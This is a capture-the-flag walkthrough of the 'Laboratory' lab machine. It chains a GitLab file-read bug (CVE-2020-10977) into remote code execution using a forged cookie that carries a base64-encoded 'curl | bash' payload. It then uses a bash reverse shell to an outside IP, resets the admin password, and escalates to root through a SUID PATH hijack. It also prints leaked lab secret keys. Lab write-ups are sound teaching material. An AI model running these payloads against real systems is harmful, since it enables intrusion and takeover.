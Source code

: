 1, Recon
ports:
	22/tcp ssh
	80/tcp http `redirect to https://laboratory.htb/`
	443/tcp http `DNS:git.laboratory.htb`

In the original url `https://laboratory.htb/`, we could not find anything useful.

So let's come to `git.laboratory.htb`
Let's just register account and login and we can find a project from exploration.
![](images/Pasted%20image%2020240902094754.png)

Let's continue to enumerate the configs and source code.
```
CREDITS.txt

# Image Credits
All images courtesy of Unsplash (https://unsplash.com).
- Martin Grincevschi (https://unsplash.com/photos/uCnOENPOBxM)
- Pete Bellis (https://unsplash.com/photos/eDVQwVMLMgU)
- Ciprian Lipenschi (https://unsplash.com/photos/OULAwYI3AGs)
- Michael Dam (https://unsplash.com/photos/mEZ3PoFGs_k)
- rawpixel.com (https://unsplash.com/photos/izTZ-TtdwCs)
# Video Credits
Video courtesy of Coverr (http://coverr.co).
```

And we can find the version of GitLab in the url `https://git.laboratory.htb/help`
`# GitLab Community Edition [12.8.1]`
`Gitlab 12.9.0 - Arbitrary File Read (Authenticated)`
To exploit this vulnerability (CVE-2020-10977), I’ll need to create two projects:
![](images/Pasted%20image%2020240902101826.png)
Then go into proj1 and create an issue with markdown language image reference where the image is a directory traversal payload pointing to the file I want:
```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

After submitting that, expand the menu on the right side, and at the bottom of it I’ll find “Move issue”, where I can select proj2:
![](images/Pasted%20image%2020240902101952.png)
In the new issue, there’s a file linked at the top just under the issue name:
![](images/Pasted%20image%2020240902102004.png)
Then we can get the password file.

In searching for information about this exploit, I found this repo. The script is pretty slick:
https://github.com/thewhiteh4t/cve-2020-10977.git

In the script above, there’s a link to a HackerOne report, and while the report starts off as arbitrary read, the researcher finds how to convert that to code execution. I’ll start by reading /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml:
`https://hackerone.com/reports/827052`

```
# This file is managed by gitlab-ctl. Manual changes will be        
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb  
# and run `sudo gitlab-ctl reconfigure`.                                         
production:                                                                         
  db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
  openid_connect_signing_key: |                                                     
    -----BEGIN RSA PRIVATE KEY-----                                                 
    MIIJKQIBAAKCAgEA5LQnENotwu/SUAshZ9vacrnVeYXrYPJoxkaRc2Q3JpbRcZTu
    YxMJm2+5ZDzaDu5T4xLbcM0BshgOM8N3gMcogz0KUmMD3OGLt90vNBq8Wo/9cSyV
    RnBSnbCl0EzpFeeMBymR8aBm8sRpy7+n9VRawmjX9os25CmBBJB93NnZj8QFJxPt
...[snip]...
```

For the exploit to work, my payload will need to be created in an environment with the same secret_key_base.

```
curl -k "https://git.laboratory.htb/users/sign_in" --cookie "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiYiNjb2Rpbmc6VVMtQVNDSUkKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0LjY1OjgwL3NoIHwgYmFzaGAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcNVVMtQVNDSUkGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7CkY6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--dab2808d1a9cfde53d6b2579d76dc683dd992158"

```

Remember to make the `sh` and start the http service
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.8/443 0>&1
```

Then we get the shell of git.

It becomes clear very quickly that there’s not much here except for GitLab, and I’m in a Docker container:

There’s no users in /home.
Common binaries like ip, ifconfig, and netstat are not installed.
There’s a `/.dockerenv`file.

I can pull the local IP address from `/proc/net/fib_trie`:
```
Main:
  +-- 0.0.0.0/0 3 0 5
     |-- 0.0.0.0
        /0 universe UNICAST
     +-- 127.0.0.0/8 2 0 2
        +-- 127.0.0.0/31 1 0 0
           |-- 127.0.0.0
              /32 link BROADCAST
              /8 host LOCAL
           |-- 127.0.0.1
              /32 host LOCAL
        |-- 127.255.255.255
           /32 link BROADCAST
     +-- 172.17.0.0/16 2 0 2
        +-- 172.17.0.0/30 2 0 2
           |-- 172.17.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.17.0.2
              /32 host LOCAL
        |-- 172.17.255.255
           /32 link BROADCAST
```

I’ll start the console:
`gitlab-rails console`

I can list the users, and the admin users:
```
irb(main):001:0> User.active
User.active
User.active
=> #<ActiveRecord::Relation [#<User id:4 @seven>, #<User id:1 @dexter>, #<User 

id:5 @wither>]>
irb(main):002:0> User.admins
User.admins
User.admins
=> #<ActiveRecord::Relation [#<User id:1 @dexter>]>
```

Since dexter is the only admin, perhaps I could reset his password:
```
user = User.find(1)
user.password = '123456789'
user.password_confirmation = '123456789'
user.save!
```

We finally successfully login to the admin page and get the secret git project, and we can get the .ssh directory.
![](images/Pasted%20image%2020240906113909.png)

Then use the id_rsa, we successfully login.

3,shell as root
Looking at the SUID binaries on the box, one jumped out as something custom to this box:
```
root     dexter             16720 Aug 28  2020 /usr/local/bin/docker-security
root     messagebus         51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
These would be useful for us.

/usr/local/bin/docker-security is probably what was referenced in the todo.txt from the repo.

I could pull this binary back and reverse it in Ghidra, but given this is an easy-rated box, I’ll start with ltrace (which fortunately is installed on this box):

```
setuid(0)                                                                                                    = -1
setgid(0)                                                                                                    = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                       = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                       = 256
+++ exited (status 0) +++
```

The binary is calling system("chmod ..."). The important part here is that it isn’t using the full path to chmod. That is something I can exploit.

By using one of the Path-Hijacking Techniques, we can get root shell easily.
Make a file named chmod contains /bin/bash then give it execution permission with :
```
#!/bin/bash
/bin/bash
```

`chmod +x ./chmod`
`export PATH=$(pwd):$PATH`
`PATH=$(pwd):$PATH docker-security`

Then we can handle shell as root.

